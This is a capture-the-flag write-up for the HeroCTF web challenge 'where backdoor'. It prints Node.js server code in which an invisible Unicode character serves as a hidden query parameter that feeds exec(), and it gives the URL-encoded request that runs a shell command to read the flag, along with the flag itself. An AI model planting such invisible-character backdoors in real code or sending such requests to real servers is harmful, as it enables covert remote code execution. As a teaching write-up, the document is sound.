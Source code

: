 # $ where backdoor

### Category

Web

### Description
These web masters are trying to show off their skills. But in reality, there are kind of lazy. They left a backdoor on the server for them to do some maintenance.
Find it, exploit it :)

```
Host : xxxx.heroctf.fr
Port : xxxx
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

First things first after looking around the website, we indentify the intersting part that allows us to interact with the backend, through a very simple API. It's probably the part we'll need to leverage to gain access to the machine.

Fortunatly, we have access to the source code (at the bottom of the page there is a link to an archive).

The intersting part is the `server_health` endpoint, described in `server/server.js`.

```javascript
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];

    var t = 0;
    if (timeout != "") {
        t = parseInt(t);
    }

    try {
        output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
        res.status(200);
        res.send(output.trim());
    } catch(e) {
        res.status(500);
        res.send('Server status : ERROR');
    }
});
```

The only way to achieve code execution is through the `exec()` function, which is called on every element present in the `checkCommands` list. This is were the challenge gets tricky : there is an invisible variable in this list, after the last `,`. The same element is also present after the `,` on the first line, when the function recovers the parameters from the request query paremeter (with `timeout`).

If you open this write-up (or the original challenge) with Visual Studio Code for exemple, the character will be highlighted. Here it is:
```
ㅤ
```

The urlencoded value of that character is `%E3%85%A4`.

All you have to do to achive remote code execution is to paste `/server_health?%E3%85%A4=<command>` into the websites input field.

```
/server_health?%E3%85%A4=cat%20../flag.txt

File integrity : OK
Hero{1nv1s1b1e_b4ckd0or_w7f}
localhost:80: UP
localhost:3000: UP
```

### Flag

```Hero{1nv1s1b1e_b4ckd0or_w7f}```